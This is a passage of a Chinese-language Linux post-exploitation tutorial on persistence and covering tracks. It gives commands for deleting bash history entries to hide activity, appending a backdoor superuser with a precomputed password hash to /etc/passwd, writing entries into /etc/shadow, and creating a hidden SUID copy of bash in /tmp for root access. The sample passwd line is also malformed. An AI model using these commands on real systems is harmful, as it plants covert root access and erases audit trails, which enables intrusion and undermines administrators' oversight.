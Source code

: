 输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

```
Copy`history -d [num]` 
```

删除大规模历史操作记录，这里，我们只保留前150行：

```
Copy`sed -i '150,$d' .bash_history` 
```

#### 1.4 passwd写入

```
Copy`/etc/passwd 各部分含义：
用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL` 
```

```
Copy`/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用` 
```

写入举例：

1.增加超级用户

```
Copy`$perl -le 'print crypt("momaek","salt")'
savbSWc4rx8NY

$echo "momaek:savbSWc4rx8NY:hacker:/root:/bin/bash" >> /etc/passwd` 
```

2.如果系统不允许uid=0的用户远程登录，可以增加一个普通用户账号

```
Copy`echo "momaek:savbSWc4rx8NY:-1:-1:-1:-1:-1:-1:500" >> /etc/shadow` 
```

### 0x02 SUID后门

当一个文件所属主的x标志位s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以root身份执行的。必要条件：

```
Copy`1、SUID权限仅对二进制程序有效。 
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效  
4、在执行过程中执行者将具有该程序拥有者的权限` 
```

创建suid权限的文件：

```
Copy`$cp /bin/bash /tmp/.woot
$chmod 4755 /tmp/.woot
$ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot` 
```
